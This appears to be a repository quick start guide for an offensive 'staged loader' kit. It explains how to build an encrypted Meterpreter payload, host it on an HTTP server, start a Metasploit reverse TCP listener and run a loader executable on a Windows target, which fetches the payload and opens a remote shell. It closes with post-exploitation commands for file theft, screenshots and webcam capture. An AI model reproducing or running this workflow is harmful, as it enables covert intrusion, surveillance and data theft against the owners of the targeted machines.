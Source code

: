 # Quick Start Guide - Staged Loader

**Get up and running in 3 commands!**

---

## Super Fast Setup

```bash
# 1. Run automated setup
./setup.sh

# 2. Start HTTP server (Terminal 1)
./start_server.sh

# 3. Start Metasploit listener (Terminal 2)
./start_listener.sh

# 4. Run stageless_loader.exe on Windows target
```

**That's it!** You'll get a Meterpreter shell.

---

## Step-by-Step (First Time Users)

### 1. Setup (One Time)

```bash
cd /home/yenn/Desktop/beacons
./setup.sh
```

**Prompts:**
```
Enter your Kali IP (LHOST) [192.168.1.56]: <YOUR_IP>
Enter listener port (LPORT) [4444]: <YOUR_PORT>
Enter HTTP server port [8080]: <HTTP_PORT>
Continue with this configuration? (y/n): y
```

**Output:**
```
Payload generated
Payload encrypted
Loader compiled
Scripts created
```

---

### 2. Start Server

**Terminal 1:**
```bash
./start_server.sh
```

**Output:**
```
[*] Starting HTTP server on port 8080...
[*] Payload URL: http://192.168.1.56:8080/payload.enc
[+] Server is running. Press CTRL+C to stop.
```

**Leave this running!**

---

### 3. Start Listener

**Terminal 2:**
```bash
./start_listener.sh
```

**Output:**
```
[*] Starting Metasploit handler...
[*] Listening on: 192.168.1.56:4444
[*] Started reverse TCP handler on 192.168.1.56:4444
```

**Leave this running!**

---

### 4. Run on Windows

1. Copy `stageless_loader.exe` to Windows machine
2. Double-click or run via command line
3. Wait 2-5 seconds

**In Metasploit console, you'll see:**
```
[*] Meterpreter session 1 opened (192.168.1.56:4444 -> 192.168.1.X:XXXXX)
```

---

### 5. Interact with Shell

**In Metasploit:**
```bash
# List sessions
sessions -l

# Connect to session
sessions -i 1

# You're now in Meterpreter!
meterpreter > sysinfo
meterpreter > getuid
meterpreter > pwd
meterpreter > shell     # Get cmd.exe shell
```

---

## For Different Target (New IP/Port)

```bash
./setup.sh
# Enter new IP/Port
# Everything rebuilds automatically
```

---

## Quick Troubleshooting

**No connection?**
```bash
# Check server is running
curl http://192.168.1.56:8080/payload.enc

# Check listener
# In Metasploit: jobs -l

# Check sessions
# In Metasploit: sessions -l
```

**Session dies?**
```bash
# Run loader again - it works!
# Sessions may take 5-10 seconds
```

---

## What You Get

| File | Size | Purpose |
|------|------|---------|
| `stageless_loader.exe` | 17KB | Clean loader (NO MSFVenom) |
| `payload.enc` | 200KB | Encrypted Meterpreter |
| `start_server.sh` | - | HTTP server |
| `start_listener.sh` | - | Metasploit handler |

---

## Success Indicators

**HTTP Server:**
```
Serving HTTP on 0.0.0.0 port 8080
192.168.1.X - - [DATE] "GET /payload.enc HTTP/1.1" 200 -
```
Windows downloaded the payload!

**Metasploit:**
```
[*] Meterpreter session 1 opened
```
You got a shell!

**Meterpreter Prompt:**
```
meterpreter >
```
Interactive shell ready!

---

## Common Commands

**In Meterpreter:**
```bash
sysinfo          # System information
getuid           # Current user
pwd              # Current directory
ls               # List files
cd C:\\Users     # Change directory
download file    # Download file
upload file      # Upload file
screenshot       # Take screenshot
webcam_snap      # Take photo
shell            # Get cmd.exe
```

**Session Management:**
```bash
sessions -l      # List sessions
sessions -i 1    # Interact with session 1
sessions -k 1    # Kill session 1
background       # Background session (CTRL+Z)
```

---

## If Something Goes Wrong

**Reset everything:**
```bash
# Kill all
jobs -K          # In Metasploit
CTRL+C           # In HTTP server

# Restart
./setup.sh       # Regenerate everything
./start_server.sh
./start_listener.sh
```

---

**For detailed docs:** See `README.md`

**Generated:** $(date)
